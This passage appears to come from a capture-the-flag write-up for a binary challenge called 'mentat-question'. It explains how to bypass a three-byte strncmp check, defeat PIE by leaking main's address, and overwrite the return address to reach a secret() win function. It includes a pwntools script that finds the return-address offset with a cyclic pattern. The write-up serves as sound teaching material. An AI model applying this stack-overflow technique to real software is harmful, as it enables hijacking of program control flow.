 However, there is one slight problem with entering any sort of input into buf. The line `strncmp(buf, "Yes", 3) == 0` attempts to ensure that the user input is set to "Yes". If this check fails, the program exits. Fortunately, however, the way this check is implemented makes it so that it only checks if the first 3 bytes of buf are equal to "Yes". Therefore, we can simply enter whatever payload we want after "Yes" and pass the check!  

Now we can develop a process to return to the win function, secret().  

Firstly, we need to determine the PIE offset. We need the PIE offset to calculate the address of the secret() function. We can do this by leaking the address of main() or some other function, since the offset between main() and secret() is known and constant, regardless of PIE.  

Once we determine the PIE offset, we can calculate the address of the secret() function, and then override RIP (the return address) on the stack to return to secret().  

Let's first deal with finding the offset. Well, we know calculate() is called from main(), so main's address has to be on the stack, wherever RIP is located, since the program will need to return to it later.  

So, we can first find the offset of the RIP with pwntools's cyclic() and cyclic_find() functions. Here's the script for that:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./mentat-question")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

p = process('./mentat-question')
gdb.attach(p)

# NOTE: logic starts here

p.recvuntil(b'?\n')
p.sendline(b'Division')

def send_payload(b):
    p.recvuntil(b'?\n')
    p.send(b'\n\n\n')
    p.sendlineafter(b'?\n', b)
    return p.recvline()

send_payload(b'Yes' + cyclic(1024))
# after checking out in GDB, I found that RSP, when the program ran into SIGSEV, was set to "aaagaaah"  
ret = cyclic_find('aaagaaah')

p.interactive()
```

Note that you should be using the pwndbg extension for GDB. It helps a lot!  
